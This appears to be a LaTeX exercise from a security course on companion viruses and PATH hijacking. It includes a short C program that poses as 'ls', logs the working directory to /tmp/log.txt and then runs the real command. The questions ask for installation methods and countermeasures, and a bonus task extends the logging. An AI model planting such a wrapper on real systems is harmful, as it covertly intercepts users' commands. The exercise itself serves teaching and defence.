 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[Companion Virus and PATH Hijacking]

A \textbf{companion virus} is a type of malware that does not modify existing files but places itself alongside them to be executed in their place. A common technique involves exploiting the \texttt{PATH} environment variable to intercept the execution of system commands.

\textbf{Attack principle:} When a user types a command (for example \texttt{ls}), the system searches for the executable in the directories listed in \texttt{PATH}, in order. If an attacker places a fake \texttt{ls} in a higher-priority directory, this malicious program will be executed instead.

Consider the following C program, designed to replace the \texttt{ls} command:

\begin{lstlisting}[language=C]
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
    // Phase 1: Malicious code (simulation)
    FILE *f = fopen("/tmp/log.txt", "a");
    if (f) {
        fprintf(f, "Intercepted command: ls\n");
        fprintf(f, "Directory: %s\n", getcwd(NULL, 0));
        fclose(f);
    }

    // Phase 2: Execute the real command
    execvp("/bin/ls", argv);

    return 0;
}
\end{lstlisting}

\begin{enumerate}
\item Explain how this program works. Why doesn't the user notice that their system is compromised?

\item How could an attacker install this companion virus on a Linux system? Propose two different methods.

\item What happens if the attacker forgets the line \texttt{execvp("/bin/ls", argv)}? What consequences would this have on the stealthiness of the attack?

\item Propose two countermeasures that the user or system administrator could implement to protect against this type of attack.

\item \textbf{Bonus:} Modify the program to also record the arguments passed to the \texttt{ls} command.
\end{enumerate}

\end{exercice}
\end{document}
